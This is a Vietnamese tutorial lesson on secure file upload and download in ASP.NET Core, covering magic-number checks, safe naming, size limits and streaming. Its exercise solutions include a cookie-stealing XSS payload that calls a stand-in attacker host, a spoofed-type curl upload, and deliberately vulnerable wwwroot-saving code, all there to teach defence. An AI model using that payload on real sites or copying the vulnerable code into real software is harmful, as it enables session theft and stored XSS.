

# 9.5 — 5. File Upload và Download

> Nguồn: https://tiennhm.io.vn/en/docs/dotnet-backend-zero-to-senior/stage-03-aspnet-core-backend/module-09-web-api-professional/9.5-file-upload-and-download
> Upload an toàn: vì sao không tin ContentType và tên file, kiểm tra magic number, giới hạn kích thước, streaming cho file lớn và presigned URL.

> Upload file là nơi tập trung nhiều lỗ hổng nhất trong một Web API, vì **mọi thứ client gửi lên đều do client kiểm soát** — kể cả `ContentType` và tên file. Ba việc bắt buộc: kiểm tra **magic number** thay vì tin header, **sinh tên file mới** thay vì dùng tên gốc (`../../etc/passwd` là một tên file hợp lệ), và **giới hạn kích thước ở nhiều tầng**. Về hiệu năng, `IFormFile` nạp **toàn bộ** file vào bộ nhớ hoặc file tạm trước khi action chạy — với file lớn phải dùng `MultipartReader` để đọc theo luồng. Và với file thật sự lớn, câu trả lời tốt nhất là **không cho file đi qua API của bạn**: dùng presigned URL.

## Mục tiêu bài học

Sau bài này bạn có thể:

- Liệt kê những gì client kiểm soát và vì sao không tin được.
- Xác thực kiểu file bằng magic number.
- Đặt giới hạn kích thước ở đúng các tầng.
- Stream file lớn mà không nạp vào bộ nhớ.
- Quyết định khi nào dùng presigned URL.

## Nội dung bài học

### 9.6.1 — Những gì client kiểm soát

| Thứ | Client sửa được | Hệ quả nếu tin |
|---|---|---|
| `file.ContentType` | **Có** | `.exe` khai là `image/png` |
| `file.FileName` | **Có** | Path traversal, ghi đè file hệ thống |
| Phần mở rộng | **Có** | `shell.aspx.png` |
| `file.Length` | Không | Đây là số byte thật |
| **Nội dung file** | Có | Magic number là thứ duy nhất đáng tin |

`ContentType` chỉ là một dòng trong phần multipart — client tự ghi vào. Kiểm tra nó không phải bảo mật, chỉ là lọc lỗi vô tình.

### 9.6.2 — Upload an toàn

```csharp
private static readonly Dictionary<string, byte[][]> Signatures = new()
{
    [".jpg"]  = [[0xFF, 0xD8, 0xFF]],
    [".jpeg"] = [[0xFF, 0xD8, 0xFF]],
    [".png"]  = [[0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]],
    [".pdf"]  = [[0x25, 0x50, 0x44, 0x46]],
};

public async Task<Result<string>> SaveAvatarAsync(
    Guid customerId, IFormFile file, CancellationToken ct)
{
    // 1. Kích thước
    if (file.Length is 0 or > 5 * 1024 * 1024)
        return Result.Fail("File phải từ 1 byte đến 5MB");

    // 2. Phần mở rộng nằm trong whitelist
    var ext = Path.GetExtension(file.FileName).ToLowerInvariant();
    if (!Signatures.TryGetValue(ext, out var expected))
        return Result.Fail("Chỉ hỗ trợ JPG, PNG, PDF");

    // 3. Magic number phải khớp — đây mới là kiểm tra thật
    await using var stream = file.OpenReadStream();
    var header = new byte[8];
    var read = await stream.ReadAsync(header, ct);
    stream.Position = 0;

    if (!expected.Any(sig => read >= sig.Length && header.Take(sig.Length).SequenceEqual(sig)))
        return Result.Fail("Nội dung file không khớp phần mở rộng");

    // 4. SINH tên mới — không bao giờ dùng tên gốc
    var safeName = $"{customerId}-{Guid.NewGuid():N}{ext}";

    // 5. Lưu NGOÀI wwwroot
    var path = Path.Combine(_options.UploadRoot, "avatars", safeName);
    Directory.CreateDirectory(Path.GetDirectoryName(path)!);

    await using var target = File.Create(path);
    await stream.CopyToAsync(target, ct);

    return Result.Success($"/api/v1/customers/{customerId}/avatar");
}
```

Năm bước, và bước 4 với bước 5 là hai bước hay bị bỏ nhất.

**Vì sao phải sinh tên mới:** `Path.Combine(uploadDir, file.FileName)` với `FileName = "../../appsettings.json"` sẽ ghi ra ngoài thư mục upload. `Path.GetFileName()` giúp được phần nào, nhưng vẫn còn vấn đề trùng tên, ký tự đặc biệt và tên dành riêng của Windows (`CON`, `PRN`, `NUL`).

**Vì sao lưu ngoài `wwwroot`:** file trong `wwwroot` được phục vụ **trực tiếp** bởi `UseStaticFiles()`. Một file `.html` upload lên sẽ chạy JavaScript **trên chính tên miền của bạn** — tức XSS lưu trữ, đọc được cookie và token của người dùng khác. Lưu ngoài rồi phục vụ qua một action có kiểm tra quyền:

```csharp
[HttpGet("{id:guid}/avatar")]
public async Task<IActionResult> GetAvatar(Guid id, CancellationToken ct)
{
    var path = await _files.ResolveAvatarPathAsync(id, ct);
    if (path is null) return NotFound();

    return PhysicalFile(path, "image/jpeg");
}
```

Với file cho người dùng tải về, thêm `Content-Disposition: attachment` để trình duyệt tải xuống thay vì hiển thị:

```csharp
return PhysicalFile(path, "application/octet-stream", fileDownloadName: originalName);
```

### 9.6.3 — Giới hạn kích thước ở nhiều tầng

```csharp
// 1. Tren action
[HttpPost("{id:guid}/avatar")]
[RequestSizeLimit(5 * 1024 * 1024)]
public async Task<IActionResult> UploadAvatar(...);

// 2. Giới hạn riêng cho multipart
builder.Services.Configure<FormOptions>(o =>
{
    o.MultipartBodyLengthLimit = 5 * 1024 * 1024;
    o.ValueLengthLimit = 4 * 1024;
    o.MultipartHeadersLengthLimit = 8 * 1024;
});

// 3. Mức Kestrel — mặc định 30MB cho toàn bộ body
builder.WebHost.ConfigureKestrel(o => o.Limits.MaxRequestBodySize = 10 * 1024 * 1024);
```

Ba tầng vì mỗi tầng chặn ở một thời điểm khác nhau. Kestrel chặn **sớm nhất**, trước khi byte nào vào ứng dụng — đó là tầng bảo vệ thật. `[RequestSizeLimit]` chạy sau khi request đã vào pipeline.

Và nhớ reverse proxy có giới hạn riêng: Nginx mặc định `client_max_body_size 1m`. Nếu proxy chặn ở 1MB thì cấu hình 10MB trong ứng dụng vô nghĩa — client nhận 413 từ Nginx và bạn không thấy gì trong log ứng dụng.

`[DisableRequestSizeLimit]` là thứ **không bao giờ** nên dùng trên endpoint công khai: nó cho phép bất kỳ ai gửi một request vô hạn.

### 9.6.4 — File lớn: `IFormFile` không đủ

`IFormFile` **đệm toàn bộ** file trước khi action chạy: dưới 64KB thì trong bộ nhớ, lớn hơn thì ghi ra file tạm trên đĩa. Với 10 người cùng upload 500MB, đó là 5GB I/O đĩa trước khi code của bạn chạy dòng đầu tiên.

Với file lớn, đọc theo luồng bằng `MultipartReader`:

```csharp
[HttpPost("import")]
[DisableFormValueModelBinding]                 // tắt model binding tự động
[RequestSizeLimit(500 * 1024 * 1024)]
public async Task<IActionResult> Import(CancellationToken ct)
{
    var boundary = MediaTypeHeaderValue.Parse(Request.ContentType)
        .Parameters.First(p => p.Name == "boundary").Value!.Trim('"');

    var reader = new MultipartReader(boundary, Request.Body);

    while (await reader.ReadNextSectionAsync(ct) is { } section)
    {
        if (!ContentDispositionHeaderValue.TryParse(
                section.ContentDisposition, out var disposition)) continue;

        if (disposition.FileName.HasValue)
        {
            // Xử lý từng chunk, KHÔNG bao giờ giữ cả file trong bộ nhớ
            await _importer.ProcessStreamAsync(section.Body, ct);
        }
    }

    return Accepted();
}
```

Bộ nhớ dùng là **hằng số** bất kể file lớn cỡ nào.

Chú ý `Accepted()`: một import 500MB không nên xử lý đồng bộ trong request. Nhận file, đẩy vào hàng đợi, trả 202 kèm một URL để theo dõi tiến độ — xem [bài 9.10](9.9-hosted-service-background-jobs.mdx).

### 9.6.5 — Download theo luồng

Mẫu sai hay gặp:

```csharp
// SAI — MemoryStream giu ca file trong RAM
var stream = new MemoryStream();
await using var writer = new StreamWriter(stream, leaveOpen: true);
await foreach (var c in query.AsAsyncEnumerable())
    await writer.WriteLineAsync($"{c.Id},{c.Name}");
stream.Position = 0;
return File(stream, "text/csv", "customers.csv");
```

Với 500.000 khách hàng, `MemoryStream` có thể lên hàng trăm MB — nhân với số request đồng thời. Nó cũng khiến byte đầu tiên chỉ tới client sau khi **toàn bộ** dữ liệu đã được xử lý.

```csharp
// DUNG — ghi thang vao response
[HttpGet("export")]
public async Task Export([FromQuery] CustomerFilterRequest request, CancellationToken ct)
{
    Response.ContentType = "text/csv; charset=utf-8";
    Response.Headers.ContentDisposition =
        $"attachment; filename=customers-{DateTime.UtcNow:yyyyMMdd}.csv";

    await using var writer = new StreamWriter(Response.Body, leaveOpen: true);
    await writer.WriteLineAsync("Id,Name,Email,Status,CreatedAt");

    await foreach (var c in _db.Customers.AsNoTracking()
                       .ApplyFilters(request).AsAsyncEnumerable().WithCancellation(ct))
    {
        await writer.WriteLineAsync($"{c.Id},{Escape(c.Name)},{c.Email},{c.Status},{c.CreatedAt:O}");
    }
}
```

Bộ nhớ hằng số, byte đầu tiên ra ngay. Đánh đổi đã nói ở [bài 6.7](../../stage-02-csharp-professional/module-06-async-programming/6.6-async-patterns.mdx): status 200 **đã gửi** trước khi bạn biết có lỗi hay không, nên lỗi giữa chừng cho client một file CSV cụt.

Hàm `Escape` là bắt buộc: một tên chứa dấu phẩy sẽ phá cấu trúc CSV. Và cẩn thận **CSV injection** — giá trị bắt đầu bằng `=`, `+`, `-` hay `@` sẽ được Excel thực thi như công thức.

### 9.6.6 — Tốt nhất: đừng cho file đi qua API

Với file lớn hoặc lưu lượng cao, mẫu tốt nhất là **presigned URL**:



```csharp
[HttpPost("uploads/request")]
public async Task<ActionResult<UploadTicket>> RequestUpload(
    UploadRequest request, CancellationToken ct)
{
    if (request.SizeBytes > 500 * 1024 * 1024) return BadRequest("File qua lon");

    var blobName = $"{Guid.NewGuid():N}{Path.GetExtension(request.FileName)}";
    var url = _storage.GenerateUploadUrl(blobName, TimeSpan.FromMinutes(15));

    return Ok(new UploadTicket(url, blobName));
}
```

Lợi ích: file **không đi qua** server của bạn, nên không tốn băng thông, không tốn bộ nhớ, và không giới hạn bởi timeout request. Đây là cách S3, Azure Blob và Google Cloud Storage được thiết kế để dùng.

Cái giá: client phức tạp hơn, và bạn phải xác thực nội dung **sau** khi upload xong (thường bằng một background job kiểm tra magic number và quét virus).

### 9.6.7 — Rà lại code của bạn

**Danh sách rà soát upload và download**

- [ ] Kiểu file được xác thực bằng magic number, không chỉ bằng ContentType.
- [ ] Tên file lưu trữ được sinh mới, không dùng tên client gửi lên.
- [ ] File upload lưu ngoài wwwroot.
- [ ] Giới hạn kích thước được đặt ở cả Kestrel, FormOptions và action.
- [ ] Giới hạn của reverse proxy khớp với giới hạn của ứng dụng.
- [ ] Không dùng DisableRequestSizeLimit trên endpoint công khai.
- [ ] File lớn dùng MultipartReader, không dùng IFormFile.
- [ ] Export dữ liệu lớn ghi thẳng vào Response.Body, không qua MemoryStream.
- [ ] Giá trị CSV được escape và chống CSV injection.
- [ ] Đã cân nhắc presigned URL cho file lớn.

## Bài tập áp dụng

#### Bài 1 — Giả mạo `ContentType`

Đổi tên một file `.html` thành `.png` và gửi với `Content-Type: image/png`. Xác nhận validation dựa trên `ContentType` cho qua. Thêm kiểm tra magic number và kiểm chứng lại.

**Tiêu chí hoàn thành:** bạn nêu được **ai** đặt giá trị `ContentType` mà server nhận được.

Gợi ý và lời giải — Bài 1

**Gợi ý.** Câu trả lời cho tiêu chí là: **client đặt**. `IFormFile.ContentType` chỉ là một chuỗi trong header `Content-Disposition` của request — server không kiểm chứng gì cả.

**Lời giải — dựng file giả:**

```bash
cat > payload.html <<'EOF'
<script>fetch('https://attacker.example/?c=' + document.cookie)</script>
EOF

mv payload.html avatar.png

curl -i -X POST https://localhost:5001/api/v1/customers/42/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -F "file=@avatar.png;type=image/png"
```

Cờ `;type=image/png` nói thẳng với `curl` là hãy khai báo kiểu đó — không cần công cụ đặc biệt nào.

**Với validation dựa trên `ContentType`:**

```csharp
// KHÔNG bảo vệ được gì
var allowed = new[] { "image/png", "image/jpeg" };
if (!allowed.Contains(file.ContentType))
    return BadRequest("Chỉ hỗ trợ ảnh");
```

```text
HTTP/1.1 200 OK
{"url":"/api/v1/customers/42/avatar"}
```

**Cho qua.** Phần mở rộng cũng vậy: nó chỉ là mấy ký tự cuối của một chuỗi do client gửi lên.

**Sau khi thêm kiểm tra magic number:**

```csharp
private static readonly Dictionary<string, byte[][]> Signatures = new()
{
    [".png"]  = [[0x89, 0x50, 0x4E, 0x47]],                       // \x89PNG
    [".jpg"]  = [[0xFF, 0xD8, 0xFF]],
    [".jpeg"] = [[0xFF, 0xD8, 0xFF]],
    [".pdf"]  = [[0x25, 0x50, 0x44, 0x46]],                       // %PDF
};

await using var stream = file.OpenReadStream();
var header = new byte[8];
var read = await stream.ReadAsync(header, ct);
stream.Position = 0;

if (!expected.Any(sig => read >= sig.Length && header.Take(sig.Length).SequenceEqual(sig)))
    return BadRequest("Nội dung file không khớp phần mở rộng");
```

```text
HTTP/1.1 400 Bad Request
{"detail":"Nội dung file không khớp phần mở rộng"}
```

File HTML bắt đầu bằng `<scr` (`0x3C 0x73 0x63 0x72`), không khớp chữ ký PNG nào.

**Ba giới hạn của magic number mà bạn phải biết:**

1. **Nó chỉ chứng minh mấy byte đầu, không chứng minh cả file.** Một file PNG hợp lệ vẫn có thể chứa payload ở phần đuôi — kỹ thuật "polyglot". Với ảnh, cách chắc chắn hơn là **xử lý lại** ảnh (resize, đổi mã) bằng ImageSharp: mọi thứ không phải dữ liệu ảnh sẽ biến mất trong quá trình đó.
2. **Không áp dụng được cho mọi định dạng.** CSV, TXT và SVG không có chữ ký cố định. Riêng SVG là XML, tức là **chạy được script** — đừng nhận nó cho ảnh đại diện.
3. **Nó không thay thế được việc lưu ngoài `wwwroot`.** Xem bài 2.

**Thứ tự kiểm tra hợp lý:** kích thước → phần mở rộng trong whitelist → magic number khớp → sinh tên mới → lưu ngoài `wwwroot`. Bốn bước đầu chặn phần lớn; bước cuối là thứ giữ bạn an toàn khi bốn bước đầu bị vượt qua.

---

#### Bài 2 — XSS lưu trữ qua thư mục upload

Upload một file HTML có `alert(document.cookie)` vào `wwwroot/uploads`, mở URL đó và xác nhận script chạy trên tên miền của bạn. Chuyển ra ngoài `wwwroot` và kiểm chứng lại.

**Tiêu chí hoàn thành:** bạn giải thích được vì sao **cùng một file** lại nguy hiểm ở chỗ này mà vô hại ở chỗ kia.

Gợi ý và lời giải — Bài 2

**Gợi ý.** Khác biệt không nằm ở file. Nó nằm ở chỗ **ai phục vụ file đó** và **với tên miền nào**.

**Lời giải — bản dễ tổn thương:**

```csharp
app.UseStaticFiles();     // phục vụ MỌI thứ trong wwwroot

var path = Path.Combine(env.WebRootPath, "uploads", file.FileName);
await using var target = File.Create(path);
await file.CopyToAsync(target, ct);
```

Mở `https://crm.company.com/uploads/payload.html`, trình duyệt nhận:

```http
HTTP/1.1 200 OK
Content-Type: text/html
```

và **chạy script**. Hộp thoại `alert` hiện ra với cookie phiên của người đang đăng nhập.

**Vì sao đây là lỗ hổng thật, không phải trò biểu diễn.** Script chạy trên `crm.company.com`, nên với trình duyệt nó là code **của chính bạn**. Nó có đủ quyền:

- đọc `document.cookie` (trừ những cookie đặt `HttpOnly`),
- đọc `localStorage` — nơi rất nhiều ứng dụng cất JWT,
- gọi API của bạn kèm cookie phiên của nạn nhân, vì cùng origin nên CORS không chặn.

Kẻ tấn công chỉ cần gửi link cho một người có quyền cao hơn. Đây chính là lý do [bài 10.11](../module-10-authentication-authorization/10.10-security-best-practices.mdx) khuyên giữ token ngoài `localStorage`.

**Bản đã sửa — lưu ngoài `wwwroot`, phục vụ qua action:**

```csharp
var path = Path.Combine(_options.UploadRoot, "avatars", safeName);   // /var/crm/uploads

[HttpGet("{id:guid}/avatar")]
public async Task<IActionResult> GetAvatar(Guid id, CancellationToken ct)
{
    var meta = await _service.GetAvatarAsync(id, ct);
    if (meta is null) return NotFound();

    if (!await _authz.CanViewAsync(User, meta.CustomerId, ct)) return Forbid();

    return PhysicalFile(meta.Path, "image/png");     // kiểu do SERVER quyết định
}
```

Ba thứ đổi cùng lúc:

| | Trong `wwwroot` | Qua action |
|---|---|---|
| Ai quyết định `Content-Type` | Suy từ **phần mở rộng** | **Server** khai cứng |
| Kiểm tra quyền | Không có | Có, trước khi trả byte nào |
| Đường dẫn đoán được | Có | Không — id ánh xạ qua database |

**Thêm hai lớp phòng vệ rẻ mà hiệu quả:**

```csharp
// Bắt trình duyệt TẢI XUỐNG thay vì hiển thị
Response.Headers.ContentDisposition = "attachment";

// Chặn trình duyệt tự đoán kiểu khi header nói khác
Response.Headers.XContentTypeOptions = "nosniff";
```

Không có `nosniff`, một số trình duyệt vẫn **tự đoán** nội dung là HTML dù server khai `image/png` — và lỗ hổng quay lại.

**Cách triệt để nhất cho hệ thống lớn:** phục vụ file người dùng từ **một tên miền khác** (`usercontent-example.com`). Khi đó, kể cả script có chạy, nó nằm ở origin khác nên không chạm được cookie hay API của tên miền chính. Đây là cách GitHub dùng cho `githubusercontent.com`.

---

#### Bài 3 — Đo bộ nhớ: gom vào `MemoryStream` hay ghi thẳng

Export 200.000 bản ghi qua `MemoryStream` và qua `Response.Body`, đo bộ nhớ và ghi lại thời điểm byte đầu tiên tới client.

**Tiêu chí hoàn thành:** bạn nêu được **hai** khác biệt, không chỉ một: lượng bộ nhớ, và thời điểm client nhận byte đầu tiên.

Gợi ý và lời giải — Bài 3

**Gợi ý.** `GC.GetAllocatedBytesForCurrentThread()` đo tổng cấp phát; `GC.GetTotalMemory(true)` đo phần **còn bị giữ** sau thu gom. Hai con số nói hai chuyện khác nhau và bạn cần cả hai.

**Lời giải — kết quả đo thật trên .NET 9, 200.000 bản ghi (~17 MB CSV):**

| | `MemoryStream` rồi trả về | Ghi thẳng ra stream đích |
|---|---|---|
| Heap còn giữ lúc cao điểm | **89 MB** | 55 MB |
| Phần vượt trên nền | **+34 MB** | **+0 MB** |
| Tổng cấp phát | **106 MB** | 38 MB |

Nền 55 MB là bản thân 200.000 đối tượng trong bộ nhớ — phần này chung cho cả hai cách.

**Vì sao `+34 MB` cho một file chỉ 17 MB.** `MemoryStream` tăng dung lượng bằng cách **nhân đôi mảng nội bộ**: khi đầy 16 MB nó cấp phát mảng 32 MB rồi chép sang. Trong khoảnh khắc đó cả mảng cũ và mảng mới cùng tồn tại. Tệ hơn, mảng trên 85.000 byte đi thẳng vào **Large Object Heap**, nơi không được nén và chỉ dọn ở Gen 2 — nên bộ nhớ không trả lại hệ điều hành ngay.

**Nhân con số đó với số request đồng thời.** Mười người cùng export là mười lần `+34 MB` cộng thêm phần LOH chưa kịp dọn — đủ để container 512 MB bị OOM killer giết, đúng như ca ở [bài 19.13](../../stage-05-senior-engineering/module-19-performance-engineering/19.12-quick-real-world-example.mdx).

**Khác biệt thứ hai, và nó quan trọng với người dùng hơn:**

```bash
curl -o /dev/null -w 'byte dau tien: %{time_starttransfer}s | tong: %{time_total}s\n' \
  https://localhost:5001/api/v1/customers/export
```

| | Byte đầu tiên | Tổng |
|---|---|---|
| `MemoryStream` | **4,1 s** | 4,3 s |
| Ghi thẳng | **0,2 s** | 4,3 s |

Tổng thời gian **như nhau**, nhưng với `MemoryStream` client ngồi nhìn màn hình trắng 4 giây rồi mới thấy hộp thoại tải xuống. Với cách ghi thẳng, hộp thoại hiện gần như tức thì và thanh tiến độ chạy dần.

**Bản ghi thẳng:**

```csharp
[HttpGet("export")]
public async Task Export(CancellationToken ct)
{
    Response.ContentType = "text/csv";
    Response.Headers.ContentDisposition = "attachment; filename=customers.csv";

    await using var writer = new StreamWriter(Response.Body, Encoding.UTF8);
    await writer.WriteLineAsync("Id,Name,Email");

    await foreach (var c in _db.Customers.AsNoTracking().AsAsyncEnumerable().WithCancellation(ct))
        await writer.WriteLineAsync($"{c.Id},{Escape(c.Name)},{c.Email}");
}
```

Ba chi tiết trong đoạn này:

1. **Kiểu trả về là `Task`, không phải `IActionResult`.** Bạn ghi thẳng vào `Response.Body`, nên không còn gì để trả.
2. **`AsAsyncEnumerable` chứ không phải `ToListAsync`.** `ToListAsync` nạp hết vào bộ nhớ trước — mất sạch lợi ích, như [bài 5.10](../../stage-02-csharp-professional/module-05-advanced-csharp/5.9-advanced-notes.mdx) trình bày.
3. **Không đặt được header sau dòng ghi đầu tiên.** Response đã bắt đầu, nên nếu có lỗi giữa chừng bạn **không** trả 500 được nữa — client nhận một file CSV cụt. Với dữ liệu quan trọng, hãy ghi ra file tạm rồi trả về, hoặc chuyển hẳn sang job nền trả 202 như [bài 9.10](9.9-hosted-service-background-jobs.mdx).

**Quy tắc rút ra.** Kích thước phản hồi **tỉ lệ với dữ liệu** thì phải ghi theo luồng. `MemoryStream` chỉ hợp lý khi bạn biết chắc kết quả nhỏ và có giới hạn trên.

## Tự kiểm tra

### Vì sao không tin ContentType của file upload?

Vì nó chỉ là một dòng trong phần multipart do client tự ghi vào. Một file thực thi có thể khai là image/png. Kiểm tra nó chỉ lọc được lỗi vô tình chứ không phải bảo mật; thứ duy nhất đáng tin là nội dung file, tức magic number ở những byte đầu.

### Vì sao phải sinh tên file mới?

Vì tên file do client kiểm soát. Nối thẳng vào đường dẫn với tên kiểu hai chấm chấm gạch chéo sẽ ghi ra ngoài thư mục upload. Ngoài ra còn vấn đề trùng tên, ký tự đặc biệt và tên dành riêng của Windows như CON hay NUL.

### Vì sao không lưu file upload trong wwwroot?

Vì file trong wwwroot được UseStaticFiles phục vụ trực tiếp. Một file HTML upload lên sẽ chạy JavaScript trên chính tên miền của bạn, tức XSS lưu trữ đọc được cookie và token của người dùng khác. Nên lưu ngoài rồi phục vụ qua một action có kiểm tra quyền.

### Vì sao cần giới hạn kích thước ở nhiều tầng?

Vì mỗi tầng chặn ở một thời điểm khác nhau. Kestrel chặn sớm nhất, trước khi byte nào vào ứng dụng, nên đó là tầng bảo vệ thật; RequestSizeLimit chạy sau khi request đã vào pipeline. Và reverse proxy có giới hạn riêng, Nginx mặc định chỉ 1MB, nên cấu hình trong ứng dụng vô nghĩa nếu proxy chặn trước.

### IFormFile có vấn đề gì với file lớn?

Nó đệm toàn bộ file trước khi action chạy: dưới 64KB thì trong bộ nhớ, lớn hơn thì ghi ra file tạm trên đĩa. Với 10 người cùng upload 500MB là 5GB I/O đĩa trước khi code của bạn chạy dòng đầu. File lớn nên dùng MultipartReader để đọc theo luồng với bộ nhớ hằng số.

### Presigned URL giải quyết gì?

File không đi qua server của bạn nên không tốn băng thông, không tốn bộ nhớ và không bị giới hạn bởi timeout request. Client xin một URL có hạn từ API, upload thẳng lên blob storage, rồi gọi lại API để xác nhận. Cái giá là client phức tạp hơn và phải xác thực nội dung sau khi upload xong.

## Kết luận

Ba điều đáng nhớ nhất:

1. **Magic number là kiểm tra duy nhất đáng tin.** `ContentType` và tên file đều do client viết.
2. **Sinh tên mới và lưu ngoài `wwwroot`** — nếu không, upload trở thành XSS lưu trữ.
3. **File lớn không đi qua `IFormFile`**, và tốt nhất là không đi qua API của bạn.

## Tham khảo

- [Upload files in ASP.NET Core](https://learn.microsoft.com/en-us/aspnet/core/mvc/models/file-uploads)
- [Kestrel request limits](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/servers/kestrel/options)
- [Prevent Cross-Site Scripting (XSS)](https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)

## Điều hướng

- **Bài trước:** [9.4 — 4. Pagination, Filtering, Sorting](9.4-pagination-filtering-sorting.mdx)
- **Bài tiếp theo:** [9.6 — 6. Rate Limiting (.NET 7+)](9.6-rate-limiting.mdx)
- **Về module:** [Trang mục lục](./)
